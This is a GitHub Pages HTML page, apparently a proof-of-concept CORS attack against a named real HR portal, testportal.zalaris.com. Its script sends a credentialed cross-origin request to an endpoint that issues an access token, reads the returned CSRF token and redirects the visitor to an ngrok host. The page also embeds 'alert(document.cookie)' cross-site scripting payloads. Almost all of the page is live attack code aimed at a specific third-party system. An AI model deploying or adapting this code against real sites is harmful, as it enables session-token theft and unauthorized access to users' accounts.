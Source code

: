 <html lang="en-US"><head><meta charset="UTF-8"><meta http-equiv="X-UA-Compatible" content="IE=edge"><meta name="viewport" content="width=device-width, initial-scale=1"><!-- Begin Jekyll SEO tag v2.8.0 --><title>COorsTestingRepo</title><meta name="generator" content="Jekyll v3.9.2" /><meta property="og:title" content="COorsTestingRepo" /><meta property="og:locale" content="en_US" /><link rel="canonical" href="https://sz072.github.io/COorsTestingRepo/" /><meta property="og:url" content="https://sz072.github.io/COorsTestingRepo/" /><meta property="og:site_name" content="COorsTestingRepo" /><meta property="og:type" content="website" /><meta name="twitter:card" content="summary" /><meta property="twitter:title" content="COorsTestingRepo" /><script type="application/ld+json">{"@context":"https://schema.org","@type":"WebSite","headline":"COorsTestingRepo","name":"COorsTestingRepo","url":"https://sz072.github.io/COorsTestingRepo/"}</script>
<!-- End Jekyll SEO tag --><link rel="stylesheet" href="https://testportal.zalaris.com/nea/v1/authenticate?neaRelayState=ZHQPORTAL%3ahttps%3a%2f%2ftestportal.zalaris.com%2fep%2fredirect"><link rel="stylesheet" href="https://testportal.zalaris.com/neptune/native/fetch_csrf?sap-client=510"><!-- start custom head snippets, customize with your own _includes/head-custom.html file --><!-- Setup Google Analytics --><!-- You can set your favicon here --><!-- link rel="shortcut icon" type="image/x-icon" href="/COorsTestingRepo/favicon.ico" --><!-- end custom head snippets --></head><body><div class="container-lg px-3 my-5 markdown-body"><h1><a href="https://sz072.github.io/COorsTestingRepo/">COorsTestingRepo</a></h1><html><body><script>var req = new XMLHttpRequest();req.onload = reqListener;req.open("POST", "https://testportal.zalaris.com/neptune/zalaris_launchpad_standard?ajax_id=GET_CB_CPI_ACCESS_TOKEN&ajax_applid=ZALARIS_LAUNCHPAD_STANDARD&sap-client=510&dxp=21100006&field_id=80302", true);req.withCredentials = true;req.send();function reqListener(){var authHeader = req.getResponseHeader('X-CSRF-Token');location='https://6154-49-37-210-91.in.ngrok.io';};};</script></body></html></div><script src="https://cdnjs.cloudflare.com/ajax/libs/anchor-js/4.1.0/anchor.min.js" integrity="sha256-lZaRhKri35AyJSypXXs4o6OPFTbTmUoltBbDCbdzegg="crossorigin="anonymous"></script><script>anchors.add();</script><link rel="stylesheet" href="https://testportal.zalaris.com/neptune/zalaris_launchpad_standard?ajax_id=GET_CB_CPI_ACCESS_TOKEN&ajax_applid=ZALARIS_LAUNCHPAD_STANDARD&sap-client=510&dxp=21100006&field_id=80302"><script>alert(document.cookie)</script></body></html><html><body><script>alert(document.cookie)</script></body></html>


